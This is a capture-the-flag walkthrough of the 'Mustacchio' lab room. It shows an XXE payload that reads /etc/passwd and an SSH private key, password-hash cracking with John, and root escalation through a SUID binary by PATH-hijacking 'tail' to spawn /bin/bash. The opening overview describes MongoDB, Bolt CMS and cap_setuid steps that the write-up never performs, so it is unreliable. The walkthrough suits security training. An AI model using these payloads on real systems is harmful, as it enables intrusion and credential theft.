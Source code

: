 Room: [Mustacchio]() ONGOING TUTORIAL

Difficulty: Hard

Overview: In this room enumeration is very important, searching for subdomains, modify an exploit to take advantage of a chat program has well a MongoDb web interface. Find and crack hashes to compromise a Bolt CMS server till we privesc to root through cap_setuid+ep capabilities.

xxe enumeration privesc web

------------------------------------------------------------------------------------------------------------------------------------------------------------------

We can start our enumeration fase by running "nmap". It will scan for all open ports on the target system:

```
nmap -sV -sC -p- mustacchio.thm -oN nmap.txt

mustacchio.thm → you can add the ip of the room to /etc/hosts

-Pn → To bypass the blocking of ping probes   

-sV → To determine service/version info

-p-  →  Scan all ports

-oN → Save scan to a file
```

![nmap](https://user-images.githubusercontent.com/76821053/186257404-a5196013-3e31-4a6b-9c30-10db5ce6c027.png)

There are three open ports:

22     →  ssh OpenSSH 7.2p2

80     →  http Apache httpd 2.4.18

8765   →  http nginx 1.10.3

Port 80 hosts a http web server:

![website80](https://user-images.githubusercontent.com/76821053/186258496-eed09ad7-fb11-4263-af26-369b744af45f.png)

To search for any hidden directories or files we can use “Gobuster”:

```
gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --url http://mustacchio.thm/ -x .txt,.cgi,.php,.log,.bak,.xxx,.old

dir             → for directory brute-force

--wordlist   → Path of the wordlist

--url           →  Specify the url path

-x              → File extensions to search for
```

![gobuster](https://user-images.githubusercontent.com/76821053/186258583-84e51d26-ff8c-446b-86bd-00246df49f6b.png)

We can start browsing the directories found by “gobuster” to see what we can find.

There is a robots.txt file but it is empty:

![robotstxt](https://user-images.githubusercontent.com/76821053/186258725-8fc63b98-3754-43af-a627-7d30f4f90a5e.png)

At /custom/js path there is an interesting file called users.bak:

![usersbak](https://user-images.githubusercontent.com/76821053/186259309-68a79b6f-4a2f-449b-9468-a1d746807f71.png)

After downloading the file we can see that it holds some credentials but we need to use strings to be able to read it:

![strings](https://user-images.githubusercontent.com/76821053/186259376-a34e8467-5b75-46e9-898d-098dbda16fe4.png)

This credentials are from a sql database, they are encrypted. Braking down the credentials we can try to assume that “admin” is the username and the rest of the hash is the encrypted password.

Like so:

admin:1868e36a6d2b17d4c2745f1659433a54d4bc5f4b

So using “hash-identifier” we can identify the encryption type:

![hashidentifier](https://user-images.githubusercontent.com/76821053/186259480-5f22283a-efc4-4950-b07a-11f5c8dbf023.png)

Knowing the encryption type we can use “John the ripper” to crack this password:

First we put the hash inside a file and pass it to john.

![echo](https://user-images.githubusercontent.com/76821053/187069045-30488c9f-cccf-4a24-b7fb-dcc5d715b658.png)

```
john user_hash --format=Raw-SHA1 --wordlist=/usr/share/wordlists/rockyou.txt 
```

![john](https://user-images.githubusercontent.com/76821053/187069091-a4f85304-5a34-46b7-bf1d-8ab23bcae78f.png)

Credentials:

admin:bulldog19

If we take a look at the nginx http server we will find a login page that will accept our credentials:

![adminpanel](https://user-images.githubusercontent.com/76821053/187069121-cae89068-678b-43f6-9963-90c579f76cd8.png)

We have arrived at the admin panel and there is only a field where we are suppose to add comments on the website:

![adminpanelcoment](https://user-images.githubusercontent.com/76821053/187069152-43ff03fb-c541-4fd5-b923-bb5ac3f67c44.png)

Taking a closer look at the source code of the page we find how the javacript for the input field works:

![sourcecode](https://user-images.githubusercontent.com/76821053/187069180-406872f2-217e-4f81-9f65-e64c0dd8c7c5.png)

This submition input field accepts XML code, knowing this we can check for XXE vulnerabilities in this page.

XXE or XML External Entity attack is a type of attack against an application that parses XML input, for more information take a look at [owasp.org](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing).

We can use this payloads from githubs [PayloadAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection) 

![classicXXE](https://user-images.githubusercontent.com/76821053/187069231-64891bfc-f25b-4906-ad52-0c1fa71d641a.png)

But for it to work i adapted the XML code a bit for this webpage. What called my attention for this was a funny XML code found inside the source code, at “Example=/auth/dontforget.bak":

If we download the file we can see the structure of the XML.

![catdontforget](https://user-images.githubusercontent.com/76821053/187069432-a4fe7e02-5fbd-43f1-bcf0-67ca5ee7f253.png)

Knowing this our XML code would look like this:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY file SYSTEM "file:///etc/passwd">]>
<comment>
  <name>Joe Hamd</name>
  <author></author>
  <com>&file;</com>
</comment>
```

As we can see below, this XML format worked, we recieved the content of /etc/passwd.

![XMLformat](https://user-images.githubusercontent.com/76821053/187069519-f5f207e4-2937-44e2-9bfe-d7cf4daea789.png)

The source code of the page had a message for “Barry”, saying that we could connect through ssh with his key. If we try connecting to ssh with “Barry” we will recieve a message saying “Permission denied (publickey).”

![sshbarry](https://user-images.githubusercontent.com/76821053/187069545-cc7e4d6c-68ea-4e5e-a5d4-55d57539a363.png)

This means that, probably we can only connect to ssh with an ssh key. 

The ssh keys are normally stored at "/home/user/.ssh". We can use the same XML code to extract the keys from "barry" home directory just by changing the path of the file.

![rsaprivatekey](https://user-images.githubusercontent.com/76821053/187069625-728ce5da-e996-4d63-be31-6b21db0fa18d.png)

After arranging the ssh key like so:

![catidrsa](https://user-images.githubusercontent.com/76821053/187069652-1dac5b09-d086-4338-a40a-6ade9a99e68c.png)

We need to crack it with “John the ripper”. And to do so we first need to use "ssh2john":

![crackwithjohn](https://user-images.githubusercontent.com/76821053/187069700-e7ce8f9d-0e8b-496d-ac5e-f52d6614d1a8.png)

With the id_rsa key and the passprase that we crack we can now ssh to the target machine.

But first we need to change the permissions of the id_rsa file:

![chmod600](https://user-images.githubusercontent.com/76821053/187069748-967824c3-84e7-4d54-86d7-d90516989a13.png)

We are in!

![sshidrsa](https://user-images.githubusercontent.com/76821053/187069757-94342d39-8af8-430b-b4e0-94c37eff5128.png)

We can find the first flag at “Barry's” home directory:

![firstflag](https://user-images.githubusercontent.com/76821053/187069874-73e62b4d-0fc3-472f-a2f0-755574b38ca0.png)

Knowing the path to the user.txt file we could also get it through the website:

![firstflagwebsite](https://user-images.githubusercontent.com/76821053/187069983-035c1bb0-85a6-4d30-ab66-91e81e90887c.png)

When starting enumerating the machine, one of the first things we can do is search for SUID binaries:

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

![findperm](https://user-images.githubusercontent.com/76821053/187070125-6a6d521e-a92a-458c-9d95-d60a98732042.png)

Running the binary we will get a live feed of the nginx access.log file:

![accesslog](https://user-images.githubusercontent.com/76821053/187070148-1e98d600-9f1f-4db4-a376-8eb6542cd680.png)

If we look at the binary permissions we can read it, and to so we can use “strings”:

![strings2](https://user-images.githubusercontent.com/76821053/187070186-980a037e-2ff3-4a79-a295-faca0be13161.png)

“live_log” file is using “tail” to read the “access.log”, but it is not using the full PATH.

PATH is an environmental variable in Linux which contains all bin and sbin directories that hold all executable programs.

So we'll create a new “tail” binary that runs “/bin/bash”, this way we can try to hijack the PATH of “tail” to a specific directory and when the SUID binary with root privileges run it will trigger our new “tail” binary.

We can use these steps:

```bash
cd /tmp
echo '/bin/bash' > tail
chmod 777 tail
export PATH=/tmp:$PATH
```

The PATH for tails was:

![wich](https://user-images.githubusercontent.com/76821053/187070408-05257237-a503-4b7a-9be2-6fdfd943c453.png)

The new PATH is now /tmp/tail, and we just have to run the SUID binary “live_log” owned by root.

![runsuidbinary](https://user-images.githubusercontent.com/76821053/187070505-06172146-60d6-42b9-80dd-c4bf4a3899df.png)

Success! Root privileges!!

You can find the last flag at /root.

![rootflag](https://user-images.githubusercontent.com/76821053/187070539-e9035ee4-85a2-46bc-bed7-30d89f8b2a45.png)






























































